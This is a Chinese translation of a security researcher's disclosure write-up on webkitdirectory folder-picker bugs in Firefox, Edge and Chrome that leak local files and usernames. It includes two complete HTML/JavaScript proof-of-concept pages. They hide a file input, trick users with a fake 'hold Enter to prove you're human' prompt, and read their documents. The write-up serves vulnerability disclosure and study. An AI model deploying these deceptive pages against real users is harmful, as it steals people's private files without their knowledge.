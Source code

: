 
# 【技术分享】针对跨浏览器的本地文件泄露漏洞的分析


                                阅读量   
                                **88369**
                            
                        |
                        
                                                                                                                                    ![](./img/85898/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[http://leucosite.com/Chrome-Firefox-Edge-Local-File-Disclosure/](http://leucosite.com/Chrome-Firefox-Edge-Local-File-Disclosure/)

译文仅供参考，具体内容表达以及含义原文为准

**[![](./img/85898/t01806a06eac1954d8d.jpg)](./img/85898/t01806a06eac1954d8d.jpg)**



翻译：[shan66](http://bobao.360.cn/member/contribute?uid=2522399780)

预估稿费：120RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**

你知道吗？你可以轻松把普通的文件选择器变成文件夹选择器，为此，只需将属性“webkitdirectory”添加到type ='file'的给定输入元素中就行了。

当然，与文件夹选择器不同的是，您最终会加载给定文件夹中的所有文件。这是一个明显的漏洞，机不可失，一阵忙活之后，我最终在三种主流浏览器中找到了一些相关的安全漏洞。

下面，我会针对不同的浏览器分别进行介绍。

<br>

**火狐浏览器**

我已经提交了三个与Mozilla的webkitdirectory功能有关的安全漏洞。幸运的是，文件夹选择器仅在Mozilla的Nightly版本的浏览器中提供了相应的实现，这个版本是在稳定版本发布之前用来测试新功能的。

**Bug 1295914——webkitdirectory可以用来引诱用户允许访问任意文件夹（SEC-MEDIUM）**

我报告的文件夹选择器方面的第一个安全漏洞与不良语义有关。这个安全漏洞是受到了[**Google Chrome中修复的一个漏洞**](https://bugs.chromium.org/p/chromium/issues/detail?id=252888)的启发而找到的，这种漏洞可用来欺骗毫无戒心的用户。

**Bug 1319370（CVE-2017-5414）webkitdirectory——操作系统用户名泄露（SEC-MEDIUM）**

我认为第二个漏洞是泄露本地文件的关键所在。这里的问题在于，当文件选择器被打开一次后，那么第二次打开它时，它会“降级”文件夹。

所以我制作了一个PoC，其效果为：如果我们诱骗受害者按住“Enter”键，同时弹出一个文件夹，就能导致用户在不知情的情况下“挑选”某些文件夹。

为了获取操作系统用户名，受害者需要按住用于两个文件夹对话框的确认按钮，因为（在Windows上）默认目录是'C： Users  {username}  Desktp '。

这是利用这个漏洞时所依赖的主要用户互动，这主要是受到了一个[**较旧的Mozilla漏洞**](https://www.mozilla.org/en-US/security/advisories/mfsa2011-40/)的启发。另一种方式是欺骗用户反复按下某个位置并弹出文件夹，这样的话“confirm pick”按钮将被自动按下。

**Bug 1338637——任意输入本地文件[webkitdirectory]（SEC-MEDIUM）**

我发现，如果在用户按下“Enter”键时弹出一个文件夹的话，那么我们可以欺骗受害者，使我们可以访问默认目录中的所有文件。当然，这种方式还是有一些局限性的，因为在Windows操作系统上，似乎只有“我的文档”文件夹受此影响。

如果它是一个"我的文档"之外的文件夹，如“桌面”（默认），则不会加载任何东西。但是，在其他操作系统上，情况就不同了。

幸运的是，我们前面说过有一个漏洞，其中文件夹将在文件夹选择器使用后“降级”，所以这里可以利用这一点。

以下是原始的PoC。请注意，单凭第一个安全漏洞是远远不够的，只有在组合第二个和第三个安全漏洞之后，才最终得到了一个PoC。



```
&lt;html&gt;
&lt;head&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;style&gt;
#q{
opacity:0.0;
}
&lt;/style&gt;
&lt;b&gt;Hold down enter for 5 seconds to prove you're human&lt;/b&gt;
&lt;input type=file id=q webkitdirectory='true'&gt;&lt;br&gt;
&lt;textarea id="qtxt" style="height:300px;"&gt;Things grabbed:&lt;/textarea&gt;
&lt;script&gt;
var i=25;
document.onkeypress=function(e){if(q.value.length&gt;0){qtxt.value+=(q.value+'n');}
if(q.value=='Documents'){
window.i=1000;
}
if(e.key==='Enter'){
window.i--;
if(window.i&lt;3){
q.click();
}
}
};
q.onchange=function(){
if(window.i&gt;10){
document.body.innerHTML=('I can read '+q.files.length+' files from Documents folder');
}
}
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```



**微软Edge浏览器**

我在Edge中发现了一个类似的安全漏洞，不同之处在于默认目录是“我的文档”，所以我在报告中指出，文件夹选择器可以用来接收受害者文档文件夹中的所有文件。

这个漏洞目前已经被修复了。

原始PoC： 



```
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;
Read all files on PC - PoC - By @qab
    &lt;/title&gt;
    &lt;style&gt;
        #thing {
            opacity: 0.0;
        }
    &lt;/style&gt;
&lt;/head&gt;
&lt;body&gt;
    &lt;h3 id="qmsg"&gt;Hold down the ENTER key for 5 seconds to prove you're human..&lt;/h3&gt;
    &lt;input id="thing" type="file" webkitdirectory mozdirectory accept="text/*" /&gt;
    &lt;script&gt;
  var r = new FileReader();
        thing.onchange = function() {
            alert('I can read ' + this.files.length + ' files from anywhere on your pc!');//This is for PoC only. We can access all data using this.files as seen next.
r.onload=function(){
alert(r.result);
};
r.readAsText(thing.files[0]);
        };
        //This is where we detect if the user is holding the Enter button.
        var i = 0;
        document.onkeydown = function() {
            i++;
            if (i &gt; 4) {
                thing.click();
                i = -10000;
                document.onkeydown = null;
                setTimeout(function() {
                    qmsg.innerHTML = '&lt;u&gt;Thank you! Please wait while we verify (this might take a few minutes).&lt;/u&gt;';
                }, 1000);
            };
        };
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

<br>

**谷歌浏览器**

在这些漏洞方面，谷歌是第一家与我接洽的供应商。最初收到的评级为SEC-MEDIUM，后来更改为SEC-LOW，然后就石沉大海了。事实证明，如果有人尝试大规模使用这种类型的漏洞的话，Chrome就能检测到这种类型的漏洞，因为浏览器会自身提供了相应的安全记录。

截至目前为止，我虽然没有完全搞明白，但我相信他们的意思是，他们可以检测和阻止任何恶意网站，如果相应文件夹上传器的使用率陡升的话。在2007年4月13日向微软提交PoC报告时，该PoC仍然在Chrome上有效。

最糟糕的是，如果文件夹选择器默认为'C：'，您就能够读取整个磁盘——因为文件夹选择器会上传所有子目录中的全部文件。

<br>

**参考文献**

Arbitrary local files disclosure in input[webkitdirectory] bug report: [https://bugzilla.mozilla.org/show_bug.cgi?id=1338637](https://bugzilla.mozilla.org/show_bug.cgi?id=1338637) 

(CVE-2017-5414) webkitdirectory – OS username disclosure[https://bugzilla.mozilla.org/show_bug.cgi?id=1319370](https://bugzilla.mozilla.org/show_bug.cgi?id=1319370) 

webkitdirectory could be used to trick users into allowing access to arbitrary folders[https://bugzilla.mozilla.org/show_bug.cgi?id=1295914](https://bugzilla.mozilla.org/show_bug.cgi?id=1295914) 

(CVE-2016-7239) Microsoft Edge Information Disclosure Vulnerability[https://technet.microsoft.com/library/security/mt674627.aspx](https://technet.microsoft.com/library/security/mt674627.aspx) 

Google bug report[https://bugs.chromium.org/p/chromium/issues/detail?id=637098](https://bugs.chromium.org/p/chromium/issues/detail?id=637098) 
